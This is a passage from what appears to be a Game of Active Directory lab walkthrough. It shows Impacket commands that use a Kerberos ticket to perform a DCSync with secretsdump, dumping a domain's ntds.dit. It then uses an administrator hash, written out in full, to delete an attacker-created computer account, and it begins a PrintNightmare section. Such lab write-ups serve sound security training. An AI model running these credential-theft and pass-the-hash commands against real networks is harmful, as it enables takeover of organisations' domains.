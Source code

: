 - DCSync by presenting the service ticket

```shell
export KRB5CCNAME=/workspace/administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
secretsdump.py -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local'
```

![samaccountname_secretsdump.png](/assets/blog/GOAD/samaccountname_secretsdump.png)


- And voilà, we got all the north domain ntds.dit informations :)

- Now clean up by deleting the computer we created with the administrator account hash we just get

```shell
addcomputer.py -computer-name 'samaccountname$' -delete -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' 'north.sevenkingdoms.local/Administrator'
```

```
Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation
[*] Successfully deleted samaccountname$.
```


## PrintNightmare

To exploit printnightmare we will first check if the spooler is active on targets
